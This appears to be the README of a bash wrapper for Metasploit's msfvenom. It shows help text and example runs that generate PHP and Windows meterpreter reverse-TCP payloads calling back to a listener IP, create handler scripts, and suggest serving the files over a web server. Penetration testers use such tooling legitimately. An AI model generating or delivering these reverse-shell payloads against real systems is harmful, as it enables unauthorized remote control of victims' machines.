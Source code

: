 ![Metasploit Payload Creator (MPC)](https://i.imgur.com/KjlZjd9.png)

- - -

## Help

``` bash
root@kali:/var/www# bash /root/mpc.sh
 [*] Msfvenom Payload Creator (MPC)

 [i] Missing type

 [i] /root/mpc.sh <TYPE> (<IP>) (<PORT>)
 [i] TYPE:
 [i]   + ASP (meterpreter)
 [i]   + Bash (meterpreter)
 [i]   + Linux (meterpreter)
 [i]   + PHP (meterpreter)
 [i]   + Python (meterpreter)
 [i]   + Windows (meterpreter)
 [i] IP will default to IP selection menu
 [i] PORT will default to 443
root@kali:/var/www#
```

## Example \#1 (PHP - Automated)

```bash
root@kali:/var/www# bash /root/mpc.sh php 127.0.0.1
 [*] Msfvenom Payload Creator (MPC)
 [i]   IP: 127.0.0.1
 [i] PORT: 443
 [i] TYPE: PHP (php/meterpreter_reverse_tcp)
 [i]  CMD: msfvenom --payload php/meterpreter_reverse_tcp --format raw --platform php --arch php LHOST=127.0.0.1 LPORT=443 -o /var/www/php_meterpreter.php
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/php_meterpreter.php
 [i] PHP meterpreter created as '/var/www/php_meterpreter.php'
 [i] MSF handler file create as 'php_meterpreter.rc (msfconsole -q -r /var/www/php_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## Example \#2 (Windows - Interactive)

```bash
root@kali:/var/www# bash /root/mpc.sh exe
 [*] Msfvenom Payload Creator (MPC)

 [i] Use which IP address?:
 [i]   1.) 192.168.103.136
 [i]   2.) 192.168.155.175
 [i]   3.) 127.0.0.1
 [?] Select 1-3: 2

 [i]   IP: 192.168.155.175
 [i] PORT: 443
 [i] TYPE: Windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom --payload windows/meterpreter/reverse_tcp --format exe --platform windows --arch x86 LHOST=192.168.155.175 LPORT=443 -o /var/www/windows_meterpreter.exe
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/windows_meterpreter.exe
 [i] Windows meterpreter created as '/var/www/windows_meterpreter.exe'
 [i] MSF handler file create as 'windows_meterpreter.rc (msfconsole -q -r /var/www/windows_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## To-Do

* Display interface name next to IP address (e.g. `2.) 192.168.155.175 [eth1]`)
* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Cleaner command line arguments (e.g. `-ip 127.0.0.`, `-v` etc)
* Support different payloads (e.g. `standard shells`/`nc` & `reverse_http`/`reverse_https`)
* x64 payloads
